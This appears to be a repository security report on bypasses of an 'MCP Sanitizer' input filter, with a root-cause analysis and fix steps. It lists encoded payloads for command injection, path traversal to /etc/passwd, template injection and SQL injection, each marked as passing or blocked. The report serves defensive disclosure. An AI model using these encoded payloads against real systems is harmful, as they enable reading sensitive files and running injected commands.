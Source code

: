 # 🚨 CONFIRMED VULNERABILITIES: MCP Sanitizer Bypass Analysis

## Executive Summary

**CRITICAL FINDING**: 70% bypass rate confirmed through live testing.

**7 out of 10** attack vectors successfully bypassed the MCP Sanitizer, demonstrating critical security vulnerabilities that require immediate attention.

## Confirmed Working Bypasses

### ✅ VULNERABILITY CONFIRMED: Unicode Command Injection
```javascript
Payload: \u0063\u0061\u0074\u0020\u002f\u0065\u0074\u0063\u002f\u0070\u0061\u0073\u0073\u0077\u0064
Decodes to: cat /etc/passwd
Status: 🚨 BYPASSED
```

### ✅ VULNERABILITY CONFIRMED: Hex Command Injection  
```javascript
Payload: \x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64
Decodes to: cat /etc/passwd
Status: 🚨 BYPASSED
```

### ✅ VULNERABILITY CONFIRMED: Unicode Path Traversal
```javascript
Payload: \u002e\u002e\u002f\u002e\u002e\u002f\u0065\u0074\u0063\u002f\u0070\u0061\u0073\u0073\u0077\u0064
Decodes to: ../../etc/passwd
Status: 🚨 BYPASSED
```

### ✅ VULNERABILITY CONFIRMED: Triple URL Encoding
```javascript
Payload: %252e%252e%252f%252e%252e%252f%252e%252e%252f%2565%2574%2563%252f%2570%2561%2573%2573%2577%2564
Decodes to: ../../../etc/passwd
Status: 🚨 BYPASSED
```

### ✅ VULNERABILITY CONFIRMED: Mixed Encoding Attack
```javascript
Payload: \u002e\u002e/%2e%2e/\x2e\x2e/etc/passwd
Decodes to: ../../../etc/passwd  
Status: 🚨 BYPASSED
```

### ✅ VULNERABILITY CONFIRMED: Encoded Metacharacter Injection
```javascript
Payload: ls\u0020\u003b\u0020cat\u0020/etc/passwd
Decodes to: ls ; cat /etc/passwd
Status: 🚨 BYPASSED
```

### ✅ VULNERABILITY CONFIRMED: Unicode Template Injection
```javascript
Payload: \u007b\u007b7*7\u007d\u007d
Decodes to: {{7*7}}
Status: 🚨 BYPASSED
```

## Partially Working Defenses

### ⚠️ BLOCKED: Null Byte Truncation
```javascript
Payload: safe.txt\0../../../etc/passwd
Status: ✅ BLOCKED
Reason: Blocked pattern detection caught ../
```

### ⚠️ BLOCKED: HTML Entity Injection (False Positive)
```javascript
Payload: &#46;&#46;&#47;&#46;&#46;&#47;&#101;&#116;&#99;&#47;&#112;&#97;&#115;&#115;&#119;&#100;
Status: ✅ BLOCKED  
Reason: Pattern matcher caught unrelated regex
```

### ⚠️ BLOCKED: Unicode SQL Injection
```javascript
Payload: \u0027\u0020OR\u00201\u003d1\u0020--
Status: ✅ BLOCKED
Reason: SQL keyword detection caught --
```

## Root Cause Analysis

The vulnerabilities stem from the **architectural flaw** where the main sanitization flow uses legacy validators that:

1. **No Encoding Detection**: Legacy validators don't detect or decode Unicode/URL/hex escapes
2. **Pattern Matching Only**: Simple regex patterns without preprocessing 
3. **No Security Decoder**: The `security-decoder.js` module exists but isn't used in main flow
4. **Bypass Path**: Advanced validators are bypassed in favor of legacy ones

## Attack Impact

These confirmed bypasses enable:

- **Command Injection**: Execute arbitrary system commands
- **Path Traversal**: Access sensitive files like `/etc/passwd`
- **Template Injection**: Server-side template execution
- **Data Exfiltration**: Read configuration and sensitive files
- **System Compromise**: Potential full server takeover

## Immediate Fix Requirements

1. **Force Security Decoding**: All inputs MUST go through `security-decoder.js`
2. **Remove Legacy Bypass**: Eliminate fallback to `validation-utils.js`
3. **Multi-layer Decoding**: Handle Unicode + URL + HTML entity combinations
4. **Comprehensive Testing**: Deploy the provided security test suite

## Files Created

- `docs/red-team-security-analysis.md` - Complete technical analysis
- `docs/security-test-cases.js` - Comprehensive test suite
- `docs/poc-bypass-demo.js` - Live vulnerability demonstration
- `docs/executive-summary-vulnerabilities.md` - Business impact analysis

## Next Steps

1. **Review** the detailed technical analysis
2. **Run** the security test suite: `npx jest docs/security-test-cases.js`
3. **Implement** the recommended architectural fixes
4. **Validate** fixes against the provided test cases

---

**CRITICAL**: These vulnerabilities represent a significant security risk. Immediate remediation is required to prevent potential exploitation in production systems.